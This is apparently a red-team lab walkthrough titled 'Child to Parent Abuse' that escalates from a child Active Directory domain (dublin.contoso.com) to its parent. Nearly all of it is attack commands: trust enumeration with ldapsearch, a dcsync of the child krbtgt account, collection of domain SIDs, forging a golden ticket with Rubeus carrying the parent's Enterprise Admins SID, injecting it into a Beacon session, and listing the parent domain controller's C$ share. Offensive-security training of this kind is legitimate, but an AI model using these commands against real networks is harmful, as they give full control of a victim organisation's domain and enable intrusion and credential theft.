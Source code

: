 
### Child to Parent Abuse

- Enumerate the type of trust in place.
    
    BeaconTypeCopy
    
    `ldapsearch (objectClass=trustedDomain) --attributes trustPartner,trustDirection,trustAttributes,flatName`
    
-  Obtain the AES256 hash for the child domain's krbtgt account.
    
    1. dcsync dublin.contoso.com DUBLIN\krbtgt
-  Obtain the domain SID for _dublin.contoso.com_.
    
    1. ldapsearch (objectClass=domain) --attributes objectSid
-  Obtain the domain SID for _contoso.com_.
    
    1. ldapsearch (objectClass=domain) --attributes objectSid --hostname lon-dc-1.contoso.com --dn DC=contoso,DC=com
-  On the Attacker Desktop, forge a golden ticket and output to a file.
    
    TerminalTypeCopy
    
    `C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /user:Administrator /domain:dublin.contoso.com /sid:[DUBLIN SID] /sids:[CONTOSO EA GROUP SID] /aes256:[DUBLIN KRBTGT HASH] /outfile:C:\Users\Attacker\Desktop\golden`
    
-  Inject the ticket into Beacon.
    
    BeaconTypeCopy
    
    `kerberos_ticket_use C:\Users\Attacker\Desktop\[TICKET]`
    
-  Verify the ticket is in the session.
    
    1.  run klist
-  Access the parent domain's domain controller.
    
    1. ls \\lon-dc-1\c$
